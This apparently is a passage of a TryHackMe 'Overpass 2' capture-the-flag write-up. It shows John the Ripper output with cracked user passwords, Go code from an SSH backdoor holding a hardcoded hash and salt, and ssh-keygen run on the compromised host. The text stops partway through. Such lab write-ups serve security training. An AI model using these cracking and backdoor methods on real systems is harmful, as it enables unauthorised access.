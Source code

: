 
┌──(kali㉿kali)-[~/tryhackme/overpass2]
└─$ sudo john --wordlist=/usr/share/wordlists/fasttrack.txt hashes.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2021-05-25 23:28) 36.36g/s 2018p/s 10090c/s 10090C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed

git clone https://github.com/NinjaJc01/ssh-backdoor

check main.go and get the hash 

bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}

func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}

func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}


james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |